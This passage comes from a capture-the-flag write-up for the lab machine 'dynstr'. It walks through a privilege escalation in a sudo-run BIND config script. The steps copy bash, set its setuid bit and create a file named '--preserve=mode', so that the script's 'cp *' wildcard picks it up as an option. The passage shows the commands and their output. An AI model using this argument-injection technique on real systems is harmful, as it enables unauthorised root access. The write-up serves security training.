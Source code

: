The second part of the code creates a ```/etc/bind/named.conf.bindmgr``` configuration file, and prints all the files in the ```/etc/bind/named.bindmgr``` directory into the configuration file.
```
# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done
```

The third part of the code copies all the files in the current directory to ```/etc/bind/named.bindmgr```
```
# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/
```

### Exploiting blindmgr.sh
First, we will have to create a version file with a version number
```
echo "2" > .version
```
Next, we will have to copy the ```/bin/bash``` binary so that we can get a privileged binary when the script is executed.
```
bindmgr@dynstr:~$ cp /bin/bash .
bindmgr@dynstr:~$ ls -la
total 1196
drwxr-xr-x 5 bindmgr bindmgr    4096 Aug 21 12:45 .
drwxr-xr-x 4 root    root       4096 Mar 15 20:26 ..
-rwxr-xr-x 1 bindmgr bindmgr 1183448 Aug 21 12:45 bash
lrwxrwxrwx 1 bindmgr bindmgr       9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr    3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr    4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr     807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr    4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr    4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr      33 Aug 21 11:54 user.txt
-rw-rw-r-- 1 bindmgr bindmgr       2 Aug 21 12:40 .version
```
Afterwards, we will have to give the binary setuid bits and also create a ```--preserve=mode``` so that the script executes ```cp --preserve=mode /etc/bind/named.bindmgr``` which allows the privilege on bash to be preserved when the script is executed.
```
bindmgr@dynstr:~$ chmod +s bash
bindmgr@dynstr:~$ echo > --preserve=mode
bindmgr@dynstr:~$ ls
 bash  '--preserve=mode'  support-case-C62796521   user.txt
```
Next, we will have to execute the script so that the bash binary with root privileges will be copied to ```/etc/bind/named.bindmgr```
```
bindmgr@dynstr:~$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /home/bindmgr.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: -r not specified; omitting directory 'support-case-C62796521'
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'h�ȀE�'
    /etc/bind/named.bindmgr/bash:40: unknown option '�YF'
```